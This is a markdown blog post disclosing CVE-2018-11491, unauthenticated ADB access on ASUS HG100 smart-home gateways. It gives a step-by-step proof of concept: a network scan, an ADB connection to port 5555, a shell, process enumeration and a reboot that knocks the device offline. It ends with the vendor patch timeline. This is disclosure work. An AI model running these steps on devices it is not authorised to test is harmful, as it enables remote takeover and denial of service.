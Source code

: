 ```yaml
---
layout: post
title:  "CVE-2018-11491"
author: Mars Cheng
tags: CVE
---
```


## <center>** ASUS HG100 exists unauthenticated access vulnerability **</center>
#### Description:ASUS HG100 devices with firmware before 1.05.12 allow unauthenticated access, leading to remote command execution.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>




### <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Confirm IP

```
nmap --scanflags SYN 192.168.0.0/24
```
* Port 5555 open
<div style="text-align: center">
<img src="https://i.imgur.com/c4c7kwM.png"/>
</div>

### 2.Connect port 5555 with ADB
```
adb connect 192.168.0.100
```

<div style="text-align: center">
<img src="https://i.imgur.com/JM7pymJ.png"/>
</div>


```
adb shell
```

<div style="text-align: center">
<img src="https://i.imgur.com/8ur8l5p.png"/>
</div>


```
id
```

<div style="text-align: center">
<img src="https://i.imgur.com/RoryPJv.png"/>
</div>

```
dumpstate
```

* Show system process detail

<div style="text-align: center">
<img src="https://i.imgur.com/8QscCma.png"/>
</div>

### 3.Reboot device and Denial of Service 

```
reboot
```

<div style="text-align: center">
<img src="https://i.imgur.com/qnuaiFg.png"/>
</div>

* Check device status

<div style="text-align: center">
<img src="https://i.imgur.com/za4z9be.png"/>
</div>

### Timeline
*  February 6, 2018 Reported to ASUS Security
*  July 3, 2018 Patch released 


### Reference
1. https://www.asus.com/tw/News/qnEosWKPVDpmOeqL
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-11491
